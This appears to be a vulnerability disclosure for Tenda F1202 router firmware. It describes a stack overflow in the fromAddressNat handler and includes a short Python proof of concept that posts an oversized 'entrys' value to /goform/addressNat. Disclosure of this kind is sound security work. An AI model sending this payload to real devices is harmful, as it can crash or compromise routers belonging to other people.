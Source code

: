 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2671.html

## Affected version

F1202 V1.2.0.20(408)

## Vulnerability details

The Tenda F1202 V1.2.0.20(408) firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v4` variable receives the `entrys` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `entrys` can trigger this security vulnerability.

![image-20240319225223133](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225223133.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"entrys": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240321221807987.png)
